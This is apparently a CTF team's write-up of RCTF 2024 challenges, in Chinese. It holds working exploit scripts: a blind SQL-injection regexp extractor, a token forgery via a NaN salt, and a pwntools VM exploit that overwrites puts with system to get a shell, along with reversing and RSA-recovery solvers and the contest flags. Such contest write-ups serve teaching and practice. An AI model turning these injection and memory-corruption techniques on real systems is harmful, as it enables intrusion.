








大哥冇點打，真係可惜。

<!--more-->

# Web

## what_is_love

看源码flag分为两块，key1和key2

### key1

sql注入 正则匹配拿love_key

ps：有字符长度限制，key1实际长度较长，需要^和$分别从前后匹配何必确定key内容，最后校验可以通过key1路由判断是否正确

```JavaScript
app.post("/key1", (req, res) => {
  const { key1 } = req.body;
  if (key1.length > 52 || !isSafe(key1)) {
    return res.send("love waf");
  }
  let res1 = `SELECT * FROM key1 WHERE love_key = '${key1}'`;
  db.query(`SELECT * FROM key1 WHERE love_key = '${key1}'`, (err, results) => {
    if (err) {
      res.send("error");
    } else if (results.length > 0) {
      res.send("success");
    } else {
      res.send("wrong");
    }
  });
});

```

Exp:

一开始用Binary判断大小写，后来看到题目说全大写就不校验了，节约字符长度限制

```Python
import requests
import string

dicts = string.ascii_letters + string.digits + "-_{}"
session = requests.session()

# flag = "RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW"
flag = "t_to_know"
# RCTF{THE_FIRST_STEP_IS_to_get
for j in range(20):
    for i in dicts:
        # payload = f"'||love_key regexp '{flag+i}$'#"
        payload = f"'||love_key regexp '{i+flag}$'#"
        print(payload)
        burp0_url = "http://1.94.13.174:10088/key1"
        burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.5.66:3000", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.5.66:3000/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8", "Connection": "close"}
        burp0_data = {"key1": payload}
        res = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if res.content == b"success":
            # flag += i
            flag = i + flag
            print(flag)
            break
print(flag)
```

> RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW

### key2

Nodejs trick

*Number类型强转字符 eg: Number("a") -->* *NaN*

绕过检测，并且saltedSecret 会变成NaN 则saltedSecret已知，token伪造

{"username":"a","have_lovers":true}:NaN -> hash

```JavaScript
 // main.js
 userInfo.love_time = Number(love_time);
  if (userInfo.love_time < 10000 || typeof userInfo.love_time !== "number") {
    res.send(
      "There was once a sincere love in front of me, I didn't cherish it, and I regretted it when I lost it, and the most painful thing in the world is nothing more than this. If God could give me a chance to start over, I would say three words to that girl: I love you. If I had to put a deadline on this love, I would say 10,000 years."
    );
  }
  
  
  // auth.js
  const saltedSecret =
    parseInt(Buffer.from(secret).readBigUInt64BE()) +
    parseInt(userinfo.love_time);
```

```JavaScript
love_token=eyJ1c2VybmFtZSI6ImEiLCJoYXZlX2xvdmVycyI6dHJ1ZX0%3d.286addc9eb5743c5d37b3de75388db013c4b9c57de6201769c8db2cce1fedfc5
```



> _AND_GIVE_A_10000_YEAR_COMMITMENT_FOR_LOVE}

拼接一下得到flag

```JavaScript
RCTF{THE_FIRST_STEP_IS_TO_GET_TO_KNOW_AND_GIVE_A_10000_YEAR_COMMITMENT_FOR_LOVE}
```

---

## color

```Python
from requests import session
from Crypto.Cipher import AES
import base64
import json

s = session()


s.post("http://124.71.164.28:10088/final/game.php", data={"action": "IMYZakV42qGIPRWdg/WfFg=="})

lv_map = [2, 3, 4, 5, 5, 6, 6, 7, 7, 7, 8, 8, 8, 8, 8, 8, 9]


def enc(x):
    dat = str(lv_map[x]*lv_map[x] if x < len(lv_map) else 81).encode()
    pdd_dat = dat + bytes([16 - len(dat) % 16] * (16 - len(dat) % 16))
    return AES.new(b"88b4dbc541cd57f2d55398e9be3e61ae", AES.MODE_CBC, iv=b"41cd57f2d55398e9").encrypt(pdd_dat)


for i in range(500):
    r = s.post("http://124.71.164.28:10088/final/game.php", data={
        "action": "3wrg4Ich1RsKFUUPmU0vlw==",
        "rangeNum": base64.b64encode(enc(i)).decode()
    }).content.decode()
    r = r[r.index('{'):]
    r = json.loads(r)
    print(i, r["data"], s.post("http://124.71.164.28:10088/final/game.php", data={
        "action": "s03/Zr+K7nTxLc2aiHJQcg==",
        "pos": r["data"]
    }).content)

print(s.post("http://124.71.164.28:10088/final/game.php", data={
    "action": "IMYZakV42qGIPRWdg/WfFg=="}).content)
```

过了之后拿到源码 看样子要文件读

```PHP
}else if($action === "checkImage"){
        try {
            $upload_image = file_get_contents($_FILES["image"]["tmp_name"]);
            echo getimagesize($upload_image);
        }catch (Exception $e){
            echo "something wrong";
        }

```



`RCTF{Color_Col0r_C0lor}`

---

# Misc

## Logo: Signin

```Python
logo = """
#####（省略）#####
""".strip()
```

---

## Logo: 2024

需要把提交的代码长度缩短到 449 个字符以内。

原字符串总是连续出现 a 个 '#' ，然后又连续出现 b 个 ' ' ，如此反复，所以只需要记录每一串 '#' 和 ' ' 的长度即可。这些长度的范围都在 1..=100 内，可以映射到 100 个字符上，再用一个字符表示换行。

构造：

```Python
from RCTF import ROIS_LOGO
print(len(ROIS_LOGO) * .2024)  # 449.5304

the_logo = ROIS_LOGO.replace(' ', '*').split('\n')

code = ''

alphabet='#0123456789abcdefghijklmnopqrstuvwxyz CDEFGHIJK'+'!'*22+'('+'@'*30+'A'
# 不会用到的数，可以共用一个符号

print(alphabet.index('#'))  # 0
print(alphabet.index(' '))  # 37

for i in the_logo:
    sharps = [len(k) for k in i.strip().split('*') if k != '']
    spaces = [len(k) for k in i.strip().split('#') if k != '']
    if spaces is not None:
        for j in range(len(spaces)):
            code += alphabet[sharps[j]]   # 总是从#开始
            code += alphabet[spaces[j]]
    code += alphabet[sharps[-1]]          # 空格比#少一个
    code += '='   # 换行符

code = code[:-1]  # 去除最后一个换行

assert '!' not in code and '@' not in code
print(code)

# code = 'A=r000(=3216a01019ai7c5=321a8e9i5h2=327674p3c3b31=32a453a2d3b3i=23c343a3c3b3i=23d233c2c2c3i=23d323c3b2d4g=23d322e2b2e5e=23d232e2b2g5c=23c332e2a3j59=23b342e2a3l48=233a52d3a3n46=233873c3a3p35=238382c2b3p35=239373a2c3p35=23a37383c3c3835=23b28452b6e4346=22d0a8bh8a8=30u1K3b=A'

logo=''
n=37;i=0
while i<len(code):
    n=37-n
    logo += '\n' if code[i]=='=' else alphabet[n]*alphabet.index(code[i])
    i=i+1

assert logo == ROIS_LOGO
```

提交：

```Python
a='#0123456789abcdefghijklmnopqrstuvwxyz CDEFGHIJK'+'!'*22+'('+'@'*30+'A'
b='A=r000(=3216a01019ai7c5=321a8e9i5h2=327674p3c3b31=32a453a2d3b3i=23c343a3c3b3i=23d233c2c2c3i=23d323c3b2d4g=23d322e2b2e5e=23d232e2b2g5c=23c332e2a3j59=23b342e2a3l48=233a52d3a3n46=233873c3a3p35=238382c2b3p35=239373a2c3p35=23a37383c3c3835=23b28452b6e4346=22d0a8bh8a8=30u1K3b=A'
logo=''
n=37;i=0
while i<len(b):n=37-n;logo=logo+('\n'if b[i]=='='else a[n]*a.index(b[i]));i=i+1
```



---

## s1ayth3sp1re

JADX 反编译；题目描述说“Score>3000”，那么尝试在代码中搜索判断条件3000





```Python
arr1 = [164, 158, 95, 107, 4, 215, 108, 115, 5, 8, 25, 57, 41, 236, 231, 17, 85]
arr2 = [246, 221, 11, 45, 127, 148, 45, 36, 70, 73, 78, 8, 98, 141, 140, 112, 40]
for i in range(len(arr1)):
    print(chr(arr1[i] ^ arr2[i]), end='')

# RCTF{CAWCAW1Kaka}
```

---

## sec-image

用一般的会平滑处理的看图软件，可以看到第一张图是把 "RCTF" 这四个字符叠在一起；

用不会平滑处理的看图软件（Windows画图）放大细看，会发现四个字符影响的是不同的像素（misc手特有的一眼盯真）



偷个懒，每个小白块只取四个角落的像素

```Python
from PIL import Image

def one_char(img_in: Image, x_start, y_start):
    img = Image.new('1', (40, 40))
    for x in range(40):
        for y in range(40):
            img.putpixel((x, y), img_in.getpixel((x_start + 20 * x, y_start + 20 * y))[0])
    return img

for i in range(10):
    img = Image.open(f'task/flag{i}.png')
    one_char(img, 4, 4).save(f'output/char{4*i}.png')
    one_char(img, 15, 4).save(f'output/char{4*i+1}.png')
    one_char(img, 4, 17).save(f'output/char{4*i+2}.png')
    one_char(img, 15, 17).save(f'output/char{4*i+3}.png')
```



---

# Pwn

## rvm

纯纯逆向题

核心漏洞点在0x01FD0函数，看上去check了很多，实际上没有check目标寄存器下标，导致溢出，可以覆盖虚表中的puts函数低4字节

还有就是add、sub等计算功能，check了目的寄存器下标，但是没有check两个源寄存器下标，导致可以泄露mmap地址的低4字节

mmap地址和libc很近，所以直接利用vm计算偏移即可，puts改system，最后用magic操作（实际上就是修改reg的类型标识符），修改为"$0"即可提权

exp

```Python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# io = process("./pwn")
io = remote(b"124.71.164.28", 10089)
tob = lambda x: str(x).encode()

def op_mov_i(reg, imm):
    return b"\x01" + p8(reg) + p16(imm)

def op_print_i(reg):
    return b"\x02" + p8(reg)

def op_i2s(ra, rb):
    return b"\x03" + p8(ra) + p8(rb)

def op_rand(reg):
    return b"\x04" + p8(reg)

def op_jmp_imm(imm):
    return p8(16) + p16(imm)

def op_jnz_imm(imm):
    return p8(17) + p16(imm)

def op_jz_imm(imm):
    return p8(18) + p16(imm)

def op_and(rs, ra, rb): # s = a & b
    return p8(39) + p8(rs) + p8(ra) + p8(rb)

def op_add(rs, ra, rb): # s = a + b
    return p8(33) + p8(rs) + p8(ra) + p8(rb)

def op_sub(rs, ra, rb): # s = a - b
    return p8(34) + p8(rs) + p8(ra) + p8(rb)

def op_mul(rs, ra, rb): # s = a * b
    return p8(35) + p8(rs) + p8(ra) + p8(rb)

def op_div(rs, ra, rb): # s = a / b
    return p8(36) + p8(rs) + p8(ra) + p8(rb)

def op_xor(rs, ra, rb): # s = a ^ b
    return p8(32) + p8(rs) + p8(ra) + p8(rb)

def op_or(rs, ra, rb): # s = a | b
    return p8(40) + p8(rs) + p8(ra) + p8(rb)

def op_inc(rs): 
    return p8(37) + p8(rs)

def op_dec(rs): 
    return p8(38) + p8(rs)

def op_mov_s(reg, content):
    return b"\x30" + p8(reg) + p16(len(content)) + content

def op_print_s(reg):
    return p8(49) + p8(reg)

def op_sadd(rs, ra, rb):
    return p8(50) + p8(rs) + p8(ra) + p8(rb)

def op_s2i(rs):
    return p8(51) + p8(rs)

def op_eq(ra, rb):
    return p8(64) + p8(ra) + p8(rb)

def op_ieq_imm(ra, imm):
    return p8(65) + p8(ra) + p16(imm)

def op_seq_imm(ra, imm):
    return p8(66) + p8(ra) + p16(len(imm)) + imm

def op_is_s(rs):
    return p8(67) + p8(rs)

def op_is_i(rs):
    return p8(68) + p8(rs)

def op_nop():
    return p8(80)

def op_sdup(ra, rb): # a = b
    return p8(81) + p8(ra) + p8(rb)

def op_read(ra, rb): # ra = [rb]
    return p8(96) + p8(ra) + p8(rb)

def op_write(ra, rb): # [rb] = ra
    return p8(97) + p8(ra) + p8(rb)

def op_copy(ra, rb, rc): # ??
    return p8(98) + p8(ra) + p8(rb) + p8(rc)

def op_push(rs):
    return p8(112) + p8(rs)

def op_pop(rs):
    return p8(113) + p8(rs)

def op_ret():
    return p8(114)

def op_hlt():
    return p8(0)

def op_call(imm):
    return p8(115) + p16(imm)

def op_magic(rs, imm):
    return p8(75) + p8(rs) + p16(imm)

def op_puts():
    return b"I"

data = flat([
    op_add(0, 10, 0),
    op_mov_i(1, 0x63),
    op_mov_i(2, 0x1000),
    op_mov_i(3, 0xd70),
    op_mul(1, 2, 1),
    op_add(1, 3, 1),
    op_add(0, 1, 0),
    op_sdup(48, 0),
    op_magic(0, u16("$0")),
    op_puts(),
], filler=b"\x00")
count = 10

io.sendline(tob(0))
io.sendline(tob(len(data)))

io.send(data)

io.interactive()

```



---

# Reverse

## Dr.Akira

Thmeda壳，unlicence脱壳，调试用x64dbg+scyllahide插件。字符串交叉引用找到读输入的地方，虽然没符号，但读取的位置长得就很像注册表，创建对应的注册表项发现可以被读取。

没有符号，直接单步调一遍，可以看到输入是hex字符串，然后解析hex，得到一个大数。然后过一个powmod，最后13轮mycheck运算并比较。

powmod可以当作rsa，其中可以发现n很大，去ctfwiki突击一下可以发现符合wiener attack的情形，去网上找个脚本把d跑出来，然后13轮mycheck运算逆回去就完事。

```Python
from Crypto.Util.number import *

def check1(arr):
    for i in range(len(arr)):
        arr[i] ^= 8

def check23(arr, choice, idx):
    if choice == 0:
        arr[idx+1] ^= 0x80
    elif choice == 1:
        arr[idx+1] ^= 0x44
    elif choice == 2:
        arr[idx] ^= 0x22

def check4(arr, start, end):
    for i in range(start, end+1):
        arr[i] += 0xbe
        arr[i] &= 0xff

def check5(arr, start, end):
    for i in range(start, end+1):
        arr[i] -= 0xef
        arr[i] &= 0xff

enc = bytes.fromhex('45 AB BD BE AF AB 46 46 27 5D 88 99 9E 71 7E 98 00 92 97 6A 23 7F 7B 57 CC 6D 64 78 E0 61')
enc = list(enc)
check1(enc)
check23(enc, 0, 0x1b)
check4(enc, 0xf, 0x13)
check1(enc)
check23(enc, 1, 0x13)
check23(enc, 0, 0x17)
check5(enc, 0xd, 0x12)
check23(enc, 0, 0xf)
check23(enc, 1, 0x12)
check4(enc, 0xa, 0xe)
check5(enc, 0x5, 0xa)
check4(enc, 0x1, 0x5)
check1(enc)
print(bytes(enc))

q = [  0x3F, 0x68, 0x38, 0x6D, 0x7C, 0x52, 0xFB, 0xB3, 0xDF, 0xE3,
  0xCC, 0xAC, 0xC3, 0xDC, 0xFD, 0x1B, 0xA6, 0x6C, 0xAA, 0xC7,
  0xA5, 0xFC, 0x04, 0x0F, 0x7C, 0xC0, 0xE5, 0x5B, 0xF1, 0xAB,
  0xEB, 0x92, 0x33, 0x0B, 0xA4, 0x92, 0xAC, 0x81, 0x08, 0x47,
  0x91, 0xCB, 0xD7, 0x0B, 0x97, 0xA5, 0x45, 0xA1, 0xCF, 0x9D,
  0x0C, 0xC8, 0x7E, 0x15, 0x9C, 0x28, 0x69, 0x64, 0xB9, 0x06,
  0x95, 0x5C, 0x79, 0x88, 0x30, 0xD3, 0x6F, 0x18, 0xDC, 0xB0,
  0x03, 0xB8, 0xB4, 0x77, 0xCE, 0x3E, 0x5A, 0xB1, 0x57, 0x6C,
  0x54, 0x84, 0xA6, 0xF6, 0xD1, 0xD7, 0x97, 0x18, 0xBD, 0xA5,
  0x0B, 0xDC, 0x3C, 0x1A, 0x59, 0x10, 0xDF, 0xE6, 0xF0, 0xDC,
  0x90, 0x08, 0x0B, 0x3F, 0x29, 0x13, 0xC2, 0x41, 0x9F, 0xDA,
  0x46, 0x91, 0xED, 0x6D, 0x7C, 0x2A, 0x3E, 0x7C, 0xF9, 0x2C,
  0x3F, 0xCD, 0x60, 0xD5, 0x56, 0x03, 0x68, 0xE9, 0x01]

p = [  0xC5, 0xB3, 0x8C, 0xCE, 0x2D, 0x27, 0x13, 0x9C, 0x5B, 0x55,
  0x2C, 0x93, 0xF8, 0xFE, 0x3D, 0x6C, 0xFB, 0x2B, 0x03, 0xF7,
  0x0E, 0x27, 0xBC, 0x80, 0xBB, 0xD1, 0x78, 0xC9, 0x91, 0xE9,
  0x10, 0xDB, 0x55, 0x3A, 0x63, 0x29, 0x63, 0x6B, 0x74, 0xB4,
  0x10, 0x6F, 0xC2, 0x09, 0xCB, 0xFB, 0x6B, 0x00, 0x43, 0x4F,
  0x03, 0xB2, 0xD9, 0xB7, 0xEE, 0x0C, 0xE2, 0xF8, 0x16, 0xD1,
  0x4F, 0x68, 0xBE, 0xAE, 0x89, 0x1C, 0xA3, 0xAE, 0x6C, 0x1F,
  0x13, 0x77, 0x2F, 0x1C, 0x9D, 0x2F, 0x48, 0x54, 0xBB, 0x9A,
  0xD8, 0x12, 0x50, 0xEE, 0x1E, 0x1D, 0x3A, 0x40, 0x39, 0x14,
  0x47, 0x10, 0x81, 0x49, 0x11, 0xA2, 0x4B, 0x1A, 0x9D, 0x59,
  0xED, 0x9F, 0x04, 0xA2, 0x56, 0x63, 0x2D, 0x7E, 0xCE, 0xD4,
  0xAA, 0x3F, 0xBB, 0xB9, 0x62, 0xCD, 0xB9, 0x04, 0x7F, 0xDF,
  0x83, 0xA9, 0x04, 0xF6, 0xD6, 0x89, 0x2D, 0x24]

e = bytes_to_long(bytes(p[::-1]))
N = bytes_to_long(bytes(q[::-1]))

# print(e)
# print(N)
# wiener attack
d = 24148649361037793876488182229470214987409054478429360732252558238236696170653

m = pow(bytes_to_long(bytes(enc[::-1])), d, N)
# print(hex(m))
print(hex(bytes_to_long(long_to_bytes(m)[::-1])))
```

---
